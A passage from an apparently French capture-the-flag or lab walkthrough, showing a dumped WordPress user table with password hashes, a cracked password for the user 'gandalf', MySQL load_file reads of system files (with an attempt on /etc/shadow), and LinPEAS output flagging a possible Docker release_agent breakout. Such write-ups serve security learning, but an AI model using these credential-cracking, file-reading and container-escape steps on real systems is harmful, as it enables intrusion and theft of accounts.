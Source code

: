 ```
|  6 | harper     | $P$B1fSDnkIVz0Ocn8TcPMxUWZF/7BZkv1 | harper        | harper@looz.com  |                    | 2021-06-07 11:29:31 |                     |           0 | Harper       |
|  8 | gandalf    | $P$BGOXSxRtzMKFKkRZ246loTIXH5AFQm/ | gandalf       | gandalf@looz.com |                    | 2021-06-07 11:46:28 |                     |           0 | Gandalf      |
+----+------------+------------------------------------+---------------+------------------+--------------------+---------------------+---------------------+-------------+--------------+
7 rows in set (0,001 sec)
```

Le mot de passe de `gandalf` se casse rapidement : `loveme2`

On peut aussi profiter du mot de passe pour le compte root de MySQL (`root-password`) pour charger des fichiers :

```
MariaDB [mysql]> select load_file("/etc/hostname");
+----------------------------+
| load_file("/etc/hostname") |
+----------------------------+
| a9400b1a26c0               |
+----------------------------+
1 row in set (0,002 sec)
```

On voit que le MySQL est dans un autre container. Je n'ai pas pu lire le contenu de `/etc/shadow` donc je suppose que le process ne tourne pas en root.

`LinPEAS` indiquait une éventuelle possibilité d'escalade (toujours dans le container web) :

```console
╔══════════╣ Container & breakout enumeration
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout
═╣ Container ID ................... a5610f5f2480═╣ Container Full ID .............. a5610f5f24807722a624537cf129b03390e93e10afe0bc9aceb09eaebf973154
═╣ Seccomp enabled? ............... enabled
═╣ AppArmor profile? .............. docker-default (enforce)
═╣ User proc namespace? ........... enabled
═╣ Vulnerable to CVE-2019-5021 .... No

══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts
═╣ release_agent breakout 1........ Yes
═╣ release_agent breakout 2........ No
═╣ core_pattern breakout .......... No
═╣ binfmt_misc breakout ........... No
═╣ uevent_helper breakout ......... No
═╣ core_pattern breakout .......... No
═╣ is modprobe present ............ No
═╣ DoS via panic_on_oom ........... No
═╣ DoS via panic_sys_fs ........... No
═╣ DoS via sysreq_trigger_dos ..... No
═╣ /proc/config.gz readable ....... No
═╣ /proc/sched_debug readable ..... Yes
═╣ /proc/*/mountinfo readable ..... No
═╣ /sys/kernel/security present ... Yes
═╣ /sys/kernel/security writable .. No
```
